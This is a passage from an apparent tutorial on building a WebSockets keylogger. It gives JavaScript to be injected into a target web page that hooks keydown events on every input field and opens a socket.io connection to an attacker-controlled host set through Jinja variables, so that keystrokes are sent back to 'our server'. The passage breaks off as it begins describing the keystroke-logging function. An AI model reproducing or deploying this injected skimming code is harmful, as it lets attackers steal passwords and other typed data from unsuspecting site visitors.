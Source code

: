 	pip install -r pip.req

# WebSockets frontend

Now that are project has been setup, we can start coding the keylogger's frontend. The keylogger frontend is the JavaScript code that will be injected into the target page to send keystrokes back to our server. This code should go in the following file:

	keylogger/templates/wsk.js

We start out by creating our onload function. This function will initialize our keylogger everytime the infected page is loaded. Our onload function starts out by getting a list of every input tag on the target page. It then adds an event listener to each one, passing logKeystroke as a callback. Our logKeystroke function, the callback, gets executed everytime a 'keydown' event occurs. We will define it later in this tutorial. We then set our WebSockets namespace and initiate a WebSocket connection with the server. Finally, we set up an event handler for 'connect' events emitted from the server.

{% highlight javascript %}

	window.onload = function() {

		all_inputs = document.getElementsByTagName('input');

		for (var i = 0, length = all_inputs.length; i < length; i++) {
	
			element.addEventListener("keydown", logKeystroke);
		}

		namespace = '/keylogger';
{% raw %} 
		socket = io.connect('http://' + '{{ lhost }}' + ':' + '{{ lport }}' + namespace);
{% endraw %}

    	// event handler for new connections
    	socket.on('connect', function() {
    	    socket.emit({ data : 'new connection initiated'});
    	});
	}

{% endhighlight %}

The following syntax belongs to a templating engine called Jinja.

{% raw %} 

	{{ lhost }}
	{{ lport }}

{% endraw %}

Jinja allows us to define variables from our backend Python code and use them within our HTML template. The lhost and lport variables will be defined at runtime within our backend code.

##Logging Keystrokes

Next we define our logKeystroke function. The logKeystroke function takes a single parameter, event, which represents the event of a key being depressed on the keyboard. We grab the keyCode from the event, and send it back to the server along with other information about the context in which the keystroke occurred.
	